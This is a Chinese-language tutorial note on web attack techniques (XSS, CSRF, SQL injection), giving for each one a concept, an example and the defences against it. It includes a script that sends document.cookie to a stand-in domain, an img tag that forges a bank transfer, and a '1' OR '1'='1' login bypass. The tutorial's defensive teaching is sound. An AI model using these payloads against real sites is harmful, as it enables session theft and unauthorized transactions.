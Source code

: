 # 攻击技术

# 1、跨站脚本攻击

## 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

## 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容： `<script>location.href="//domain.com/?c=" + document.cookie</script>`

用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站 通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

## 防范手段

1. **设置 Cookie 为 HttpOnly**

   设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

2. **过滤特殊字符** 例如将 < 转义为 &lt; ，将 > 转义为 &gt; ，从而**避免 HTML 和 Jascript 代码的运行**。

# 2.跨站请求伪造

## 概念

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自 己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证 过，所以被访问的网站会认为是真正的用户操作而去执行。

**XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。**

## 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：`http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。`

那么，一个恶意攻击者可以在另一个网站上放置如下代码

`<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。`
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

## 防范手段

1. 检查 Referer 首部字段
Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个 域名下，可以极大的防止 CSRF 攻击。
2. 添加校验 Token
    在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务 器生成随机数并附加在表单中，并要求客户端传回这个随机数。
3. 输入验证码

# 3.SQL注入

## 概念

服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

例如一个网站登录验证的 SQL 查询代码为：
`strSQL = "SELECT * FROM users WHERE (name = '" + userName + "')`

如果填入以下内容：
`userName = "1' OR '1'='1";`

那么 SQL 查询字符串为：

 `strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1')`

此时无需验证通过就能执行以下查询：

 `strSQL = "SELECT * FROM users;"`

## 防范手段

1. 使用参数化查询
Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因 此可以防止 SQL 注入的发生。